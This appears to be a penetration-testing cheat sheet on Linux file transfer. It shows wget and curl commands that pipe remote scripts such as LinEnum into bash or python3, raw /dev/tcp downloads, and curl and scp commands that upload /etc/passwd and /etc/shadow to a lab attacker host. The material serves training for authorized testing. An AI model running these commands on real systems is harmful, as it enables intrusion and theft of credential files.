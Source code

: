 ## Downloads

### Web Downloads
```bash
## wget download
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

## cURL download
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

## Invoking file without downloading
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3

curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Bash Download
Minimum ver 2.0.4 Bash required. Built-in /dev/TCP device used for download.

```bash
## Connect to Target Webserver
exec 3<>/dev/tcp/10.10.10.32/80

## HTTP GET Request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

## Print response
cat <&3
```

### SSH Download

```bash
## Enable SSH Server
sudo systemctl enable ssh

## Start SSH Server
sudo systemctl start ssh

## SCP download
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

## Uploads

### Web Upload

```bash
## Start webserver
sudo python3 -m pip install --user uploadserver

## Creating self-signed certificate
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

## Start Web Server
mkdir https && cd https

sudo python3 -m uploadserver 443 --server-certificate /root/server.pem

## Uplaoding (multiple) files
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### SCP Upload

```bash
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```